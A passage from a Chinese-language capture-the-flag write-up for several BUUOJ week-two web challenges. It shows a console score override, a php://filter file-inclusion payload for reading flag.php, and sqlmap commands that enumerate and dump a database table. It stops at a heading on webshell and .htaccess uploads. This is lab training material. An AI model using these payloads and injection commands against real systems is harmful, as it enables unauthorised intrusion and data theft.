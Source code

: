 

js 文件中找到对应成绩的参数

![](https://s2.loli.net/2024/03/08/BsewK7SMDOzn2dJ.png)

控制台：

var gameScore=9999999999999

再玩游戏直接送

![](https://s2.loli.net/2024/03/08/7d8OrhaTXACcfiq.png)

### [WEEK2] include 0。0

文件包含



![](https://s2.loli.net/2024/03/08/JdpyB5r3C9hRNil.png)

[CTF 中文件包含的几种不常规利用姿势总结](https://cloud.tencent.com/developer/article/2145160)

**?file=php://filter/convert.iconv.ASCII.UCS-2BE/resource=flag.php**

### [WEEK2] ez_sql

常规 sql 注入



> 手工注入不作演示，这里用 sqlmap

sqlmap -u [http://e36154c0-2c7a-4875-b4e1-fe82c84fb5fc.node4.buuoj.cn/?id](http://e36154c0-2c7a-4875-b4e1-fe82c84fb5fc.node4.buuoj.cn:81/?id)=

发现可以通过 get id 进行 sql 注入

xxx --dbs  查所有库

![](https://s2.loli.net/2024/03/08/qhRSlP68pZQHYfA.png)

xxx -D ctf --tables  查表

![](https://s2.loli.net/2024/03/08/KM24mXP13DoCfkh.png)

xxx -D ctf -T here_is_flag --columns   查字段

![](https://s2.loli.net/2024/03/08/zsXP9YtOGgMWC7i.png)

xxx -D ctf -T here_is_flag -C flag --dump  查内容

![](https://s2.loli.net/2024/03/08/RvNfFUuY5G8dE9p.png)

### [WEEK2] Upload again!

一句话木马写法，.htaccess
